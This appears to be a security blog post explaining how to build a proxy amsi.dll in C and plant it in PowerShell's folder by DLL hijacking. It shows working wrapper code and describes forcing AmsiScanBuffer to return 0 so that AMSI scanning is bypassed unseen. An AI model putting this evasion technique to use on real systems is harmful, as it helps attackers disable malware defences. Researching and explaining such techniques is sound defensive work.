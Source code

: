 ```yaml
---
title: Manual DLL-Wrapping technique (AMSI DLL-Implant)
createdAt: 08/05/2024
---
```


**TLDR**: [Repository with final AMSI Dll-Implant](https://github.com/Print3M/amsi-dll-wrapper)

## Standard DLL-Proxy using for DLL Hijacking

Many tutorials show the easiest methods to implement DLL-Wrapper (or maybe I should call it DLL-Proxy) using the following syntax:

```c
#pragma comment(linker, "/export:exportedFunc=legitDll.exportedFunc")
```

This actually exports a legitimate function (`exportedFunc`) from our custom DLL. The problem is that this way we have no actual control over the function. Usually in the case of standard DLL hijacking it looks like this:

```c
#include "pch.h"

// Exported legit functions
#pragma comment(linker, "/export:exampleFunc1=legitDll.exampleFunc1")
#pragma comment(linker, "/export:exampleFunc2=legitDll.exampleFunc2")

BOOL APIENTRY DllMain(HMODULE hModule, DWORD  reason, LPVOID lpReserved)
{
    if (reason == DLL_PROCESS_ATTACH) {
        /* MALICIOUS CODE HERE */
    }

    return TRUE;
}
```

As we can see above, our action is performed only when the DLL is loaded. We have no direct control over the functions we export. But I want to control the execution of these functions - the incoming parameters and the returned values. I want to add my own DLL-implant. This can come in handy for **more stealthy DLL-Hijacking tactics**, or for conveniently manipulating module parameters to get a better idea of what is going on.

It can also be a way to bypass certain security features as in the case of AMSI. By controlling the `AmsiScanBuffer()` function from `amsi.dll` we are able to return `0` every time and effectively disable AMSI checks. See [my previous post](/blog/amsi-memory-patching-bypass) for a better understanding of this concept.

## More manual way of DLL-Wrapping

So how can we do it? Well, we can create functions in our custom `fake-amsi.dll` DLL module, whose names and parameters will coincide with those of the legit `amsi.dll`. Let's see what is exported from `amsi.dll` using PE-bear program:

![PE-bear screenshot: exported functions of amsi.dll](/imgs/amsi-dll-wrapper/1.png)

Here we see the names of the functions we need to export from our DLL module. We also need to know what parameters these functions expect. This is what we can find out from the Microsoft documentation: [amsi.h header](https://learn.microsoft.com/en-us/windows/win32/api/amsi/).  

> I thought that when writing my own wrapper-functions, in addition to the name and parameters of functions, I also need to keep the calling convention in sync with the legit DLL. It turned out that with x86-64 architecture Microsoft uses only one calling convention. Basically all calling conventions (e.g. stdcall, thiscall, cdecl, and fastcall) resolve to using this _one ultimate convention_. Special keywords like `__fastcall` are simply ignored by compiler. [Read more here](https://en.wikipedia.org/wiki/X86_calling_conventions#Microsoft_x64_calling_convention).

Now we have everything to start implementing our DLL wrapper. First we load legit-amsi.dll using the absolute path, then we get the addresses of the functions we want to wrap.

```c
void DllInit() {
    // Load legit-AMSI module
    HMODULE hAmsiDll = LoadLibraryA("C:\\Windows\\System32\\amsi.dll");
    
    // Get addresses of legit-AMSI functions
    pAmsiInitialize = (AmsiInitializeT)GetProcAddress(hAmsiDll, "AmsiInitialize");
    pAmsiOpenSession = (AmsiOpenSessionT)GetProcAddress(hAmsiDll, "AmsiOpenSession");
    pAmsiCloseSession = (AmsiCloseSessionT)GetProcAddress(hAmsiDll, "AmsiCloseSession");
    pAmsiScanBuffer = (AmsiScanBufferT)GetProcAddress(hAmsiDll, "AmsiScanBuffer");
    pAmsiScanString = (AmsiScanStringT)GetProcAddress(hAmsiDll, "AmsiScanString");
    pAmsiUninitialize = (AmsiUninitializeT)GetProcAddress(hAmsiDll, "AmsiUninitialize");
}

BOOL APIENTRY DllMain(HMODULE hModule, DWORD reason, LPVOID lpReserved)
{
    if (reason == DLL_PROCESS_ATTACH) {
        // Load legit-AMSI when DLL is attached
        DllInit();
        printf("[+] Custom AMSI.DLL loaded\n");
    }

    return TRUE;
}
```

Then we create wrappers for each function according to the scheme below. It's best to make a wrapper for each function to make sure that everything will work flawlessly and no one will realize that it's just a wrapper for a legitimate DLL.

> I write in C++, so `extern "C"` is used to avoid default name mangling of exported functions. `__declspec(dllexport)` is used to export a function from our DLL file.

```c
// Type of AmsiInitialize function pointer
typedef HRESULT(*AmsiInitializeT)(LPCWSTR, HAMSICONTEXT*);

// AmsiInitialize function pointer
AmsiInitializeT pAmsiInitialize;

// AmsiInitialize function wrapper
extern "C" __declspec(dllexport) HRESULT AmsiInitialize(LPCWSTR appName, HAMSICONTEXT * amsiContext) {
    /*
        Here we can do whatever malicious or debug things we want.

        Then call legit AmsiInitialize function so that no one will
        realize that something has been changed 
    */
    return pAmsiInitialize(appName, amsiContext);
}
```

After compiling as a DLL file, we can see the exported functions again using PE-Bear:

![PE-bear screenshot: exported functions of custom amsi-implant.dll](/imgs/amsi-dll-wrapper/2.png)

I didn't implement literally all the functions from the original amsi.dll, but the rest proved useless, at least for my case. `powershell.exe`, like most executable binaries, looks for DLL modules in the same directory where the .exe file is located. This allows us to perform **DLL hijacking** and give him our fake `amsi.dll` implant.

![Location of amsi.dll implant in powershell.exe folder](/imgs/amsi-dll-wrapper/3.png)

The implant is ready. Of course, this is also one of the AMSI bypass techniques, because we fully control the execution of the `AmsiScanBuffer()` function, so it can always return `0` and execute any PowerShell script we want. My goal, however, was to see what exactly is sent, and what AMSI (actually Windows Defender) returns, in the case of a malicious script:

![PowerShell command-line with amsi.dll implant](/imgs/amsi-dll-wrapper/4.png)

We can see that our implant is working. It is loaded right at the start of `powershell.exe` which sends the entire PowerShell startup scripts to AMSI **without any chunking at all**. Literally every command you type, every line of PowerShell is scanned by AMSI. Now let's check what happens when AMSI detects a malicious PowerShell script.

![amsi.dll implant detects malicious PowerShell script](/imgs/amsi-dll-wrapper/5.png)

Highlighted in yellow is the result that the `ScanStringBuffer()` function returned on the malicious script. Microsoft's documentation says: _Any return result equal to or larger than 32768 is considered malware_ ([source](https://learn.microsoft.com/en-us/windows/win32/api/amsi/ne-amsi-amsi_result)). Our value is exactly `32768` which means everything works as intended. From my observations, this number (at least with the default Windows Defender) is never higher than `32768`, although it could be.

The experiment was successful. Now you know how to manually create your own wrappers for DLL modules and have full control over the execution of exported functions.

\~ Print3M
